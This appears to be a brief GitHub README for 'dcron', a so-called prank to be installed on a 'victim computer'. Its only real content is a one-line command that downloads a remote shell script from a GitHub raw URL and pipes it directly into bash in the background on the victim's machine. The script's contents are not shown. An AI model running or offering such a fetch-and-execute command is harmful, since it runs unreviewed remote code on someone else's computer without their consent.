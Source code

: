 # dcron
short for Daniel Cron; quick prank you can install on a victim computer

In victim computer, type in the following:
```bash
(curl https://raw.githubusercontent.com/TennisGazelle/dcron/master/dcron-start.sh | bash &)
```